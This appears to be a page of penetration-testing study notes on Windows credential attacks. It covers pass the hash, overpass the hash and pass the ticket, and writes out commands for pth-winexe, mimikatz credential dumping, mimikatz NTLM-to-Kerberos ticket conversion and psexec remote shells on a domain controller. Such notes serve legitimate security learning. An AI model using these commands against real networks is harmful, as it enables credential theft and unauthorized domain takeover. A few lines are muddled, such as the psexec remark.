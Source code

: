 ### Pass the hash

Assumption: Unauthorized access to the password hash of local administrator

```
pth-winexe -U <domain/username>%<hash> //<targetIP> cmd.exe
```

[Ref](https://www.kali.org/tools/winexe/)


### Overpass the hash

Assumption: compromised a workstation that the user has authenticated to and machine is caching. (NTLM hash)


If we have compromised admin credentials, we could Open anything as administrator that will store hash.

Why is this even required if you already have password? Because kerberos doesnot use plain text password.


### mimikatz
`sekurlsa::logonpasswords`

Gain NTLM Hash

This is to turn HTLM hash to kerberos ticket

### PTH

```powershell
sekurlsa::pth /user:<USERNAME> /domain:<CORP.COM> /ntlm:HASH /run:<POWERSHELL>
```

This will allow to run authenticate with TGT

`net use \\DC`

`klist`

this will give us kerberos ticket includes TGT & TGS

Now we have converted NTLM hash to TGT.
psexec can run command remotely but only without password hash.

We can control and run commands by using TGT.

`psexec \\DC cmd.exe`

This will use above generate TGT.


### pass the ticket.

This is all about taking advantage of the TGS. Once we obtain TGS you may export & re-inject elsewhere in the network.

If TGS belongs to current user -> No admin privilege required.
If a service is registered with SPN (service principal name) -> Bling Bling.


